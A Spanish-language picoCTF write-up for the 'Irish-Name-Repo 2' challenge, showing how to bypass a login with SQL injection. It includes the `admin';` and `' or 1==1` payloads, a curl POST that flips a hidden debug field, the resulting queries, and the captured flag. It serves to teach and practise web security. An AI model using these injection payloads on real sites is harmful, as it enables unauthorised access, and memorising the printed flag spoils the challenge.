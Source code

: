 # Irish-Name-Repo 2

## Objetivo 
Descripción:
Hay un sitio web funcionando en `https://jupiter.challenges.picoctf.org/problem/53751/`( [enlace](https://jupiter.challenges.picoctf.org/problem/53751/) ). Alguien ha pasado por alto el inicio de sesión antes y ahora se está fortaleciendo. ¡Intenta ver si aún puedes iniciar sesión! o http://jupiter.challenges.picoctf.org:53751

Sugerencias:
La contraseña está siendo filtrada.

## Solución
``` shell
//Nos dirijimos al enlace ( [enlace](https://jupiter.challenges.picoctf.org/problem/53751/) )

//nos vamos al login y vemos el codigo fuente

//aqui podemos ver su codigo y vemos que tiene un //valor oculto <input type="hidden" name="debug" value="0">

//cambiamos ese valor por 1 en el inspector

//username: admin
//password: password
//SQL query: SELECT * FROM users WHERE name='admin' //AND password='password'

//tambien probamos la inyeccion anterior
//username: admin
//password: ' or 1==1
//SQL query: SELECT * FROM users WHERE name='admin' //AND password='' or 1==1'

//para poder pasar el nivel podemos inyectar en el sql el nombre admin pero con ; para frenar e ignorar la sentencia faltante

//esto lo podemos hacer en el mismo sitio web

//entramos a login y en el username ponemos admin';
//' y ya en contraseña podemos poner lo que sea

username: admin';
password: pasword
SQL query: SELECT * FROM users WHERE name='admin';' AND password='pasword'

Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_c34df170}

////////////
segunda forma
/////////////

//nos dirigimos al enlas donde esta login
//recuerda que nos tenemos que dirigir en login.php

┌──(mino20㉿kali)-[/home/mino20]
└─PS> curl -s https://jupiter.challenges.picoctf.org/problem/53751/login.php -d "username=admin';&password=loquesea&debug=1"                                                                        
<pre>username: admin';
password: loquesea
SQL query: SELECT * FROM users WHERE name='admin';' AND password='loquesea'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>
```

## Notas
La inyección SQL es una técnica de inyección de código que podría destruir su base de datos.

La inyección SQL es una de las técnicas de piratería web más comunes.

La inyección SQL es la colocación de código malicioso en declaraciones SQL, a través de la entrada de una página web.

## Referencias
[SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)